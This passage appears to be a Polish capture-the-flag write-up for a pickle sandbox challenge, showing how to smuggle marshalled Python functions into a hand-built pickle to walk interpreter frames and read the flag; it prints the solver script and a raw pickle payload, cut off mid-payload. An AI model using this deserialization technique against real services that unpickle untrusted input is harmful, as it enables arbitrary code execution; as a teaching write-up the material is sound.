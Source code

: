 Powyższy kod prezentuje jak można zbudować stringa z "funkcją" a następnie jak tą funkcję odtworzyć. Nie trudno zauważyć, że odtworzenie funkcji to kaskada: 

`types.FunctionType(marshal.loads(base64.b64decode("base64 code")),{},"")`

I taką operację możemy zapisać prosto w postaci pickle:

```
ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'base64 code'
tRtR(dS''
))tR
```

I w ten sposób na stosie znajdzie się nasza własna funkcja.

Możemy w ten sposób przygotować funkcje z brakującymi operacjami `frames[3][0]` oraz `frame_data[-6][1]['flag'].flag`, stworzyć z nich stringi base64 a następnie w pickle umieścić kod deserializujący te funkcje. Finalnie rozwiązanie dla tego zadania to (cały solver dostępny [tutaj](solver.py)):

```python
def fun1(frames):
    return frames[3][0]


def fun2(frames_data):
    return frames_data[-6][1]['flag'].flag

code1 = base64.b64encode(marshal.dumps(fun1.func_code))
code2 = base64.b64encode(marshal.dumps(fun2.func_code))

class Flag(object):
    pass

data = "cos\nwrite\n(I1\nctypes\nFunctionType\n(cmarshal\nloads\n(cbase64\nb64decode\n(S'"+code2+"'\ntRtR(dS''\n))tR(cinspect\ngetmembers\n(ctypes\nFunctionType\n(cmarshal\nloads\n(cbase64\nb64decode\n(S'"+code1+"'\ntRtR(dS''\n(t(ttR(cinspect\ngetouterframes\n(cinspect\ncurrentframe\n)RtRtRtRtRtR."
```

Co daje nam pickle:

```
cos
write
(I1
ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'YwEAAAABAAAAAgAAAEMAAABzEwAAAHwAAGQBABlkAgAZZAMAGWoAAFMoBAAAAE5p+v///2kBAAAAdAQAAABmbGFnKAEAAABSAAAAACgBAAAAdAsAAABmcmFtZXNfZGF0YSgAAAAAKAAAAABzRAAAAEM6L1VzZXJzL1BoYXJpc2FldXMvUHljaGFybVByb2plY3RzL3VudGl0bGVkL3NyYy8zMmMzL2d1cmtlL2d1cmtlLnB5dAQAAABmdW4yEAAAAHMCAAAAAAE='
tRtR(dS''
))tR(cinspect
getmembers
(ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
```